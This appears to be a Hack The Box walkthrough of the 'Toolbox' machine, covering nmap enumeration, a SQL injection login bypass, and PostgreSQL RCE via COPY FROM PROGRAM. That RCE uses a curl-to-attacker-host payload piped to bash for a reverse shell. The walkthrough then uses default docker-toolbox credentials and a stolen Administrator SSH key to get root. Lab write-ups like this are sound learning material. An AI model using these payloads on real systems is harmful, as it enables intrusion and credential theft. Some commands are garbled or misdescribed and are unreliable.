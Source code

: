 ```yaml
---
title: Toolbox Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

We launch a NMAP:

```ruby
PORT STATE SERVICE VERSION
21/tcp open ftp FileZilla ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-xr-x 1 ftp ftp 242520560 Feb 18 2020 docker-toolbox.exe
|_ ftp-syst: 
|_ SYST: UNIX emulated by FileZilla
22/tcp open ssh OpenSSH for_Windows_7.7 (protocol 2.0)
|_ ssh-hostkey: 
| 2048 5b1aa18199eaf79602192e6e97045a3f (RSA)
|_ 256 a24b5ac70ff399a13aca7d542876b2dd (ECDSA)
|_ 256 ea08966023e2f44f8d05b31841352339 (ED25519)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
443/tcp open ssl/http Apache httpd 2.4.38 ((Debian))
| tls-alpn: 
|_ http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.38 (Debian)
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
|_Not valid before: 2020-02-18T17:45:56
|_Not valid after: 2021-02-17T17:45:56
|_http-title: MegaLogistics
445/tcp open microsoft-ds?
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0

Host script results:
| smb2-time: 
|_ date: 2023-01-29T14:22:09
|_ start_date: N/A
| smb2-security-mode: 
| 311: 
|_ Message signing enabled but not required
```

We see that it has the SMB port open, but we cannot connect to it, as previous credentials are required.

Also, we see that the FTP port has something called docker-toolbox.exe. Let's investigate what it is: We see that it is a tool that allows us to set up a Docker environment on older Mac and Windows systems that do not meet the requirements for the latest versions of Docker for Mac and Docker for Windows.

On port 443 of the nmap, we can see a domain: `admin.megalogistic.com` let's add it to /etc/hosts and connect to it

## User exploit

inside the first machine (docker), we can see that the user flag is inside the /var/lib/docker etc. folder.

If we access this domain, we get to a login panel, which we can bypass using:
```
admin' or 1=1-- -
```

However, there is not much we can do at the moment. Let's connect via ftp:

```
ftp <IP>
```

and we see that we have access to the docker-toolbox.exe file.

Let's try to upload a file to FTP. We can't either.  So let's download it. To do this, we first go into binary mode using `binary`. 

However, if we leave the page admin.megalogistic.com and try to log in with admin':admin' we see that it reports an error which tells us that we are facing POSTGRE. Let's see what we can do. In hacktricks, we found an RCE:

https://hacktricks.boitatech.com.br/pentesting-web/sql-injection/postgresql-injection

* We create a table in which we will be able to execute the RCE:
```postgresql
CREATE TABLE cmd_exec(cmd_output text);
```

Subsequently, we go to our work environment and create a network share using SMB:

```shell
impacket-smbserver smbFolder $(pwd) -smb2support 
```

Once we have it, we go to burpSuite and run the following command:

```postgresql
COPY cmd_exec FROM PROGRAM '10.10.14.29 "cmd 10.10.14.38 443" -e cmd 10.10.14.38 443'.

-- As you can see, we have put the netcat inside the smbFolder that we are sharing at the network level. 

-- However, this command has no effect, so let's try CURL:
COPY+cmd_exec+FROM+PROGRAM+'curl 10.10.14.38/test'
```

With this last command, we receive the ICMP trace, so we have RCE. To get a Rev.shell, we create the file "test" which will contain a rev.shell to our machine.

Inside the burp, we execute the same command as before but we pipe it with bash `| bash`.

We now have a shell.

Doing a
```
find / -name user.txt 2>/dev/null 
```

## Root Exploit
Doing ``Hostname -I` we see that we are inside a docker. Let's check if the real victim machine has the SSH port open, as we have found the following default credentials in google for docker-toolbox -> `docker:tcuser`. 

To do this, we run the following command:

(echo '' > /dev/tcp/172.17.0.2/22) && 2>/dev/null echo "[+] Port open" || echo "[+]Port Closed"

And we get an open port response. Let's try to connect via SSH. 
We connect. We see that we have a directory c/, from which we can enter the Administrator directory and see the id_rsa.
We copy the key, in our local machine and we connect via ssh using this key:

```shell
# chmod 600 id_rsa
ssh -i id_rsa Administrator@10.129.96.171
```

And now we can send the Root flag, which is inside Desktop.







